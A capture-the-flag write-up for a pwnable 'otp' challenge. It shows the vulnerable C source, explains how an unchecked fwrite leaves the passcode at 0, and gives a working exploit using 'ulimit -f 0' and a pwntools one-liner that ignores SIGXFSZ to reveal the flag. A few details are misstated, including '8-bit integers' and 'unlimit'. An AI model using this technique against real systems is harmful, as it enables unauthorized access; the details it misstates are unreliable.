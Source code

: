 This challenge is an example of why many programmers nag about C being unsafe.
The culprit in our case is error handling, in C there are no Exceptions or a special
type model to enforce error handling.
This means that is possible to forget an error and not crash the program.
This is generally undesirable
(the program would most likely continue execution in a state the developer did not intend it to)
but perfect for us.

To see what I mean, let's inspect `otp.c`:
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

int main(int argc, char* argv[]){
	char fname[128];
	unsigned long long otp[2];

	if(argc!=2){
		printf("usage : ./otp [passcode]\n");
		return 0;
	}

	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1) exit(-1);

	if(read(fd, otp, 16)!=16) exit(-1);
	close(fd);

	sprintf(fname, "/tmp/%llu", otp[0]);
	FILE* fp = fopen(fname, "w");
	if(fp==NULL){ exit(-1); }
	fwrite(&otp[1], 8, 1, fp);
	fclose(fp);

	printf("OTP generated.\n");

	unsigned long long passcode=0;
	FILE* fp2 = fopen(fname, "r");
	if(fp2==NULL){ exit(-1); }
	fread(&passcode, 8, 1, fp2);
	fclose(fp2);

	if(strtoul(argv[1], 0, 16) == passcode){
		printf("Congratz!\n");
		system("/bin/cat flag");
	}
	else{
		printf("OTP mismatch\n");
	}

	unlink(fname);
	return 0;
}
```

The `main` functions reads 2 8-bit integers `otp[0]` and `otp[1]` from `/dev/urandom`,
after which it opens `/tmp/$opt[0]` and writes `opt[1]` to it.
Later that same value is loaded into the `passcode` variable, this time reading from `/tmp/$opt[0]`.

Now at first glance this code looks perfectly sound, there are even checks
for the openings and reads, very responsible.
Except if we look closer we notice that not all functions are checked for errors.
In particular what interests us is the call to `fwrite`.
If that call fails, `fread` would also fail (can't read 4 bytes from an empty file)
and we would know the value of `passcode` (it's conveniently initialized to 0).

All that's left to figure out is how to sabotage the `fwrite` call.
This is probably the least intuitive part of the solution since it requires a little bit of UNIX trivia knowledge -
we can limit the number of bytes written to (but not read from!) a file using the `ulimit` command.
i.e. calling `unlimit -f 0` from the command line will prohibit any writes in any child processes the shell spawns.

Let's try it:
```
otp@pwnable:~$ ulimit -f 0
otp@pwnable:~$ gdb otp
(gdb) r 0
Starting program: /home/otp/otp 0

Program received signal SIGXFSZ, File size limit exceeded.
0x00007fbc7845d3c0 in __write_nocancel () at ../sysdeps/unix/syscall-template.S:84
84	../sysdeps/unix/syscall-template.S: No such file or directory.
(gdb)
```

To get pass the [SIGXFSZ](https://www.man7.org/linux/man-pages/man7/signal.7.html)
which by default causes a core dump
we should change the default action associated with that signal.
This can be done easily in python using the [signal](https://docs.python.org/2.7/library/signal.html) module.

Putting it all together we arrive at the final exploit:

```
otp@pwnable:~$ ulimit -f 0
otp@pwnable:~$ python -c "from pwn import *; import signal; signal.signal(signal.SIGXFSZ, signal.SIG_IGN); print process(['./otp', '0']).recvall()"
[+] Starting local process './otp': pid 433582
[+] Receiving all data: Done (90B)
[*] Process './otp' stopped with exit code 0 (pid 433582)
OTP generated.
Congratz!
...(flag)...
```
